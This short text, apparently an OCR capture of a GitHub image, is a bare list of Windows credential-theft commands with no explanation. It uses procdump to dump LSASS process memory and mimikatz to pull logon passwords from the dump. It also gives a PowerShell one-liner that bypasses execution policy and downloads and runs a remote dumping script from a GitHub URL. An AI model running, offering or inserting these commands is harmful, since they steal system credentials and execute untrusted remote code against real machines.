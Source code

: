 	>procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
	>procdump.exe -accepteula -ma lsass.exe lsass.dmp
	>mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/TheKingOfDuck/hashdump/master/procdump/procdump.ps1');Invoke-Procdump64 -Args '-accepteula -ma lsass.exe lsass.dmp'"